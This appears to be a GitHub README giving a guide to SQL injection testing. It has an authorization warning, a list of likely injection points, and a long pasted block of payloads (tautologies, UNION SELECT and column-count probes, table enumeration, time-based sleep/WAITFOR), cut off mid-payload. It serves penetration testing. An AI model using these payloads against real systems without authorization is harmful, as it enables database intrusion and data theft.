 # SQL Injection Testing Guide
**⚠️ Important Note:** Always ensure you have explicit permission to test the target systems. Unauthorized testing can be illegal and unethical. Use these techniques only in controlled environments or on platforms where you have authorization.

## Overview

SQL Injection (SQLi) is a vulnerability that allows attackers to interfere with the queries an application makes to its database. This repository contains a collection of SQL injection payloads to help you test for these vulnerabilities.


### 2. **Testing for SQL Injection**

Follow these steps to test your platform for SQL injection vulnerabilities:

#### **A. Identify Injection Points**

Usually, it's tested in search boxes, user inputs and urls. So look for the following:

1. **URL Parameters**: Look for parameters in the URL, such as `http://example.com/page?id=1`.
2. **Form Inputs**: Test fields in forms, like search bars or login forms.
3. **HTTP Headers**: Check custom headers or cookies that might be used in SQL queries.
4. **API Endpoints**: Test any API endpoints that interact with a database.

#### **B. Apply SQL Injection Payloads**

1. **Injection Tests**

   Start with simple payloads to see if input fields are vulnerable:
   ```sql
   ' OR '1'='1


2. **Injection Rampage**

  Or just use the big guns. Note go and remove peaces of code as you're testing, usually I go test peaces of this code to check if something changes:
  ```sql
' '' ` `` , " "" / // \ \\ ; ' or " -- or #  ' OR '1 ' OR 1 -- - " OR "" = " " OR 1 = 1 -- - ' OR '' = ' '=' 'LIKE' '=0--+  OR 1=1 ' OR 'x'='x ' AND id IS NULL; -- '''''''''''''UNION SELECT '2 %00 /*…*/  +		addition, concatenate (or space in url) ||		(double pipe) concatenate %		wildcard attribute indicator  @variable	local variable @@variable	global variable   # Numeric AND 1 AND 0 AND true AND false 1-false 1-true 1*56 -2   1' ORDER BY 1--+ 1' ORDER BY 2--+ 1' ORDER BY 3--+  1' ORDER BY 1,2--+ 1' ORDER BY 1,2,3--+  1' GROUP BY 1,2,--+ 1' GROUP BY 1,2,3--+ ' GROUP BY columnnames having 1=1 --   -1' UNION SELECT 1,2,3--+ ' UNION SELECT sum(columnname ) from tablename --   -1 UNION SELECT 1 INTO @,@ -1 UNION SELECT 1 INTO @,@,@  1 AND (SELECT * FROM Users) = 1	  ' AND MID(VERSION(),1,1) = '5';  ' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --   Finding the table name   Time-Based: ,(select * from (select(sleep(10)))a) %2c(select%20*%20from%20(select(sleep(10)))a) ';WAITFOR DELA
```

